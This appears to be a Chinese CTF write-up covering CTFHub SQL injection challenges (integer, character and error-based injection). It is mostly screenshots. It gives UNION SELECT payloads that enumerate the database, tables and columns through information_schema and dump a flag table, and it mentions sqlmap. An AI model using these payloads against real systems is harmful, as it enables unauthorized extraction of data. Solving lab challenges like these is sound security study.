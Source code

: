 ﻿---
title: CTFHub SQL注入及Xss
categories: ctf题目
---
![](https://img-blog.csdnimg.cn/20210311222453269.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210311222501608.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---
## 整形注入

确认字段数为 2

看一下回显位置：

![](https://img-blog.csdnimg.cn/20210311222544787.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
查 库 表 列 数据 ：

```
0 union select 3,database()

0 union select 3,group_concat(table_name) from information_schema.tables where table_schema='sqli'

0 union select 3,group_concat(column_name) from information_schema.columns where table_name='flag'

0 union select 3,flag from flag
```

sqlmap:

![](https://img-blog.csdnimg.cn/20210311222756354.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## 字符型注入
发现：select * from news where id='1'

构造1’#：
回显成功

![](https://img-blog.csdnimg.cn/20210311222921705.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
同上

---
## 报错注入

[常见报错注入姿势](https://www.freebuf.com/column/158705.html)

报错：
![](https://img-blog.csdnimg.cn/20210311223108802.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
